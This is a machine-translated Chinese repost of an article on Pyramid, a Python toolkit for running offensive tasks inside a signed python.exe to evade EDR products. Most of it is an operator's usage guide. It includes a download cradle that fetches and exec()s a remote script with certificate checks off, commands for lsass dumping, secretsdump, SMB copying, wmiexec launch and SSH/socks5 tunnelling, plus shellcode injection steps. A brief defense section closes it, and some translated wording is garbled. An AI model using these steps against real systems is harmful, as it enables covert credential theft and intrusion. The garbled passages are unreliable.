

# 金字塔:帮助在 EDRs 的盲点中运作的工具

> 原文：<https://kalilinuxtutorials.com/pyramid/>

[](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjWnRjV-lAmQURZWnWXsTqoKl3ta3pOPM7ah_dLVybJfvm2smhy3fxY9cCivG7bQ-5sgoU8_yQBWwxbZ9oWTuWWww4OnvxDmJnMxbmLSOBmxfHSen_rlK_AABu73pl3NC2Uk5fgNRw4GAQSDUhUGSLXQbfejdec2-o0SJ0e_Ye5i9JifQQJvRk6FwkF/s728/Pyramid(1).png)

**金字塔**是一组 Python 脚本和模块依赖，可以用来规避 EDRs。该工具的主要目的是通过利用一些 Python 规避属性来执行攻击性任务，并将其视为合法的 Python 应用程序使用。这是可以实现的，因为:

1.  [Python 可嵌入包](https://www.python.org/ftp/python/3.10.4/python-3.10.4-embed-amd64.zip)提供了一个[口碑好](https://www.virustotal.com/gui/file/261f682238e2dc3296038c8bd78dd01e5874e1177ebe3da2afcba35ef82d73b7)的签名 Python 解释器；
2.  Python 有许多合法的应用程序，所以有许多不同的遥测来自 python.exe 二进制，因为解释器本身运行 API。这可能会被 Python.exe 进程滥用，并试图融入 python.exe 双星的巨大“遥测指纹”。
3.  缺少对 Python 代码执行的审计—[PEP-578](https://peps.python.org/pep-0578/)试图解决这个问题，但是股票 python.exe 二进制文件没有默认启用审计功能。
4.  操作可以在 python.exe 本地完成，本地使用 Python 语言执行后期开发任务，例如动态导入 Python 模块以运行攻击性工具，以及直接在 python.exe 内执行信标对象文件(经过一些 BOF 修改)。

欲了解更多信息，请查看我的博客 上的**[defcon 30-敌手村谈话“Python vs 现代防御”幻灯片](https://github.com/naksyn/talks/blob/main/DEFCON30/Diego%20Capriotti%20-%20DEFCON30%20Adversary%20Village%20-%20%20Python%20vs%20Modern%20Defenses.pdf)** 和这篇 **[帖子。](https://www.naksyn.com/edr%20evasion/2022/09/01/operating-into-EDRs-blindspot.html)**

## 当前功能

金字塔能力直接由 python.exe 流程执行，目前包括:

1.  BloodHound Python，impacket secretsdump，paramiko，DonPAPI，LaZagne，Pythonnet，pproxy 的动态加载。
2.  使用进程内外壳代码注入的 BOFs 执行。
3.  C2 代理的进程内注入，并通过本地 SSH 端口转发隧道传输其流量。

## 工具的描述

Pyramid 是用来解包一个官方的可嵌入 Python 包，然后运行 python.exe 来执行一个 Python 下载摇篮。这是一个简单的方法，可以避免创建不常见的过程树模式，看起来像一个正常的 Python 应用程序用法。

在金字塔中，下载支架用于连接金字塔服务器(带授权的简单 HTTPS 服务器)以获取基础脚本和依赖项。

基本脚本特定于您要使用的功能，包含:

1.  自定义查找器类以在内存中导入所需的依赖项(zip 文件)。
2.  下载所需依赖项的代码。
3.  您要执行的模块的主要逻辑(bloodhound、secretsdump、paramiko 等)。).

bof 通过一个基本脚本运行，该脚本包含由 bof2shellcode 产生的外壳代码和相关的进程内注入代码。

Python 依赖关系已经得到修复和修改，可以在内存中导入而不会发生冲突。

目前有 8 个主要的基本脚本可用:

1.  **base-bh.py** 脚本将在内存中导入并执行 python-BloodHound。
2.  **base-secretsdump.py** 脚本将在内存中导入并执行 [Impacket](https://github.com/SecureAuthCorp/impacket) secretsdump。
3.  base-BOF-lsass.py 脚本使用 nanodump 的剥离版本从 python.exe 转储 lsass。这是通过在内存中注入从 bof2shellcode 和 COFFloader 获得的外壳代码输出来实现的。要让复杂的 BOF 使用这种技术，它们应该首先适应 Python 执行。
4.  **base-tunnel-inj.py** 脚本导入并在一个新线程上执行 paramiko，以创建一个转发到远程 SSH 服务器的 SSH 本地端口。之后，可以在 python.exe 本地注入外壳代码。
5.  **base-DonPAPI.py** 脚本将在内存中导入并执行 [DonPAPI](https://github.com/login-securite/DonPAPI) 。提取的结果和凭证保存在磁盘上的 Python 可嵌入包目录中。
6.  **base-LaZagne.py** 脚本将在内存中导入并执行 [LaZagne](https://github.com/AlessandroZ/LaZagne)
7.  **base-tunnel-socks5** 脚本导入并在新线程上执行 paramiko，以创建一个转发到 SSH 服务器的 SSH 远程端口，然后在目标上本地执行 socks5 代理服务器，并通过 SSH 隧道进行远程访问。
8.  **base-clr** 脚本导入 Pythonnet 以在内存中加载和执行. net 程序集。

## 用法

#### 启动服务器

`**git clone https://github.com/naksyn/Pyramid**`

为 HTTP 服务器生成 SSL 证书:

`**openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365**`

使用 SSL 证书并通过提供基本身份验证来运行金字塔 HTTP 服务器的示例:

`**python3 PyramidHTTP.py 443 testuser Sup3rP4ss! /home/user/SSL/key.pem /home/user/SSL/cert.pem /home/user/Pyramid/Server/**`

#### 修改基础脚本

*   **base-bh.py**
    *   在脚本的上半部分插入广告细节和 HTTPS 凭证。
*   **基-秘密倾印. py**
    *   在脚本的上半部分插入广告细节和 HTTPS 凭证。
*   **base-BOF-lsass.py**
    *   修改了 nanodump BOF，去除了 Beacon API 调用、cmd 行解析和硬编码输入参数，以便使用进程分叉技术并将 lsass 转储输出到 C:\Users\Public\video.avi。要更改这些设置，请相应修改 nanodump 源文件 **entry.c** 并重新编译 BOF。然后使用工具 bof2shellcode 将编译后的 nanodump BOF 作为输入:

`**python3 bof2shellcode.py -i /home/user/bofs/nanodump.x64.o -o nanodump.x64.bin**`

您可以使用 msfvenom 将生成的外壳代码转换为 python 格式:

`**msfvenom -p generic/custom PAYLOADFILE=nanodump.x64.bin -f python > sc_nanodump.txt**`

然后将其粘贴到 shellcode 变量内的基本脚本中。

*   **基础-隧道-注入比**
    *   在脚本的上部插入 SSH 服务器、本地端口转发详细信息和 HTTPS 凭据，并使用您首选的外壳代码 stager 修改 sc 变量。记住使用 SSH 本地端口转发您的流量，因此 stager 应该将 127.0.0.1 作为 C2 服务器，将 SSH 侦听端口作为 C2 端口。
*   **base-DonPAPI.py**
    *   在脚本的上半部分插入广告细节和 HTTPS 凭证。
*   **基地拉齐奥. py**
    *   在脚本的上半部分插入 HTTPS 凭证，并根据需要更改 lazagne 模块。
*   **base-clr.py**
    *   在要加载的文件的脚本和程序集字节的上部插入 HTTPS 凭据。
*   **base-tunnel-socks5.py**
    *   在脚本的上部插入参数。

#### 解压缩嵌入式包并在目标上执行下载支架

一旦金字塔服务器正在运行，基本脚本准备就绪，您可以从 python.exe 执行下载摇篮。Python 下载平台可以简单到:

```
import urllib.request
import base64
import ssl

gcontext = ssl.SSLContext(ssl.PROTOCOL_TLS_CLIENT)
gcontext.check_hostname = False
gcontext.verify_mode = ssl.CERT_NONE
request = urllib.request.Request('https://myIP/base-bof.py')
base64string = base64.b64encode(bytes('%s:%s' % ('testuser', 'Sup3rP4ss!'),'ascii'))
request.add_header("Authorization", "Basic %s" % base64string.decode('utf-8'))
result = urllib.request.urlopen(request, context=gcontext)
payload = result.read()
exec(payload)
```

请记住，urllib 是一个可嵌入的包原生 Python 模块，因此您不需要为这个摇篮安装额外的依赖项。下载的 python“基本”脚本将在内存中导入依赖项，并在 python.exe 进程中执行其功能。

#### 执行金字塔时没有可视提示

要在不显示 python.exe 提示的情况下执行金字塔，您可以利用 pythonw.exe，它在执行时不会打开控制台窗口，并且包含在同一个 Windows 嵌入式包中。下图举例说明了 pythonw.exe 在远程计算机上执行 base-tunnel-socks5.py 而不打开 python.exe 控制台窗口的用法。



攻击记录如下:

启动金字塔服务器:

`**python3 PyramidHTTP.py 443 testuser Sup3rP4ss! /home/nak/projects/dev/Proxy/Pyramid/key.pem /home/nak/projects/dev/Proxy/Pyramid/cert.pem /home/nak/projects/dev/Proxy/Pyramid/Server/**`

保存基础下载摇篮到摇篮. py。

将解包的 windows 可嵌入包(带有 cradle.py)复制到目标:

`**smbclient //192.168.1.11/C$ -U domain/user -c 'prompt OFF; recurse ON; lcd /home/user/Downloads/python-3.10.4-embed-amd64; cd Users\Public; mkdir python-3.10.4-embed-amd64; cd python-3.10.4-embed-amd64; mput *'**`

执行 pythonw.exe 启动摇篮:

`**/usr/share/doc/python3-impacket/examples/wmiexec.py domain/user:"Password1\!"@192.168.1.11 'C:\Users\Public\python-3.10.4-embed-amd64\pythonw.exe C:\Users\Public\python-3.10.4-embed-amd64\cradle.py'**`

Socks5 服务器正在目标上运行，SSH 隧道应该已启动，因此修改 proxychains.conf 并通过目标对通信进行隧道:

`**proxychains impacket-secretsdump domain/user:"Password1\!"@192.168.1.50 -just-dc**`

#### 限制

动态加载 Python 模块本身不支持导入*。本质上是 dll 的 pyd 文件。据我所知，解决这个问题的唯一公开解决方案是 Scythe *(内存执行)通过重新设计 CPython 解释器提供的。为了不丢失数字签名，一个允许使用原生 Python 可嵌入包的解决方案是将所需的 pyd 文件或轮子放到磁盘上。在大多数情况下，这应该不会对 OPSEC 产生重大影响，但是请记住，包含 pyd 文件的下列轮子会被删除到磁盘上，以便完成动态加载:*。crypto dome–blood hound-Python、Impacket、DonPAPI 和 LaZagne *需要。bcrypt、密码术、nacl、cffi–para miko 需要

*   请注意，运行 BOFs 不需要在磁盘上删除任何 pyd，因为这种技术只涉及外壳代码注入。

### 如何防御这种技术

Python.exe 是一个具有良好声誉的签名二进制文件，它不提供 Python 动态代码的可见性。金字塔利用这些规避属性在同一个 python.exe 进程中执行攻击性任务。

出于这个原因，最有效的解决方案之一是在默认情况下阻止 Python Foundation 签名的二进制文件和 dll，只为实际需要使用 Python 二进制文件的用户创建例外。

还可以发出下载可嵌入包的警报。

部署 PEP-578 虽然复杂，但也是可行的，[这是一个示例实现](https://github.com/zooba/spython)。然而，部署 PEP-578 而不阻止使用现有的 python 二进制文件可能会使这种对策无效。

### 放弃

创建此工具是为了演示基于一些盲点假设的针对 EDRs 的旁路策略。据我所知，它以一种新颖的方式结合了现有的技术和工具，有助于规避防御。该工具的唯一目的是帮助社区提高对此类用法的认识，并加快解决问题。这不是一天，这不是一个完全成熟的闪亮的 C2，金字塔利用了可能是 EDRs 的盲点，该工具已经公开，以揭示它们。包括了一个辩护段落，希望有经验的蓝队成员能够帮助做出贡献，并就金字塔旨在强调的问题提供更好的解决方案。所有信息仅用于教育目的。遵循指示，风险自负。作者及其雇主均不对任何个人或组织造成的任何直接或间接损害或损失负责。

[Click Here To Download](https://github.com/naksyn/Pyramid)